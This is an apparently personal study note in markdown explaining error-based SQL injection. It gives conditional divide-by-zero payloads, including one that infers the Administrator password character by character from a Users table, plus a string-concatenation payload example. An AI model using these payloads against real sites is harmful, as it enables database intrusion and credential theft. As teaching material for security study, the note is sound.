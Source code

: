 ```yaml
---
Title: Error-based SQLi
tags:
  - SQLi
  - ERROR-BASEDSQLi
---
```

Error based sql is focused on error messages that a website returns, and exploiting that to extract sensitive data from the database.

> [!Example]
> ```sql
> xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
> --- in simpler terms: if 1=2, execute 1/0 (1 divided by 0, which returns a database error), else, return 'a'
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a

We can exploit these errors, just like we did in [[Blind SQLi]].
> [!Sample Payload]
> ```sql
> xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
> --- If the condition is true, it should return an error, else, the condition will return true because of 'a' = 'a'

To further understand this, let's create the sample query:
> [!Sample query]
> ```sql
> SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'some-id-here'
> --- now let's say for example this is our payload
> --- '||(SELECT '' FROM dual)'
> --- it will appear on the query that will be executed like this
> SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'some-id-here'||(SELECT '' FROM dual)||'
> --- the inside parameter is like an eval, which returns the string ''.
> 




 






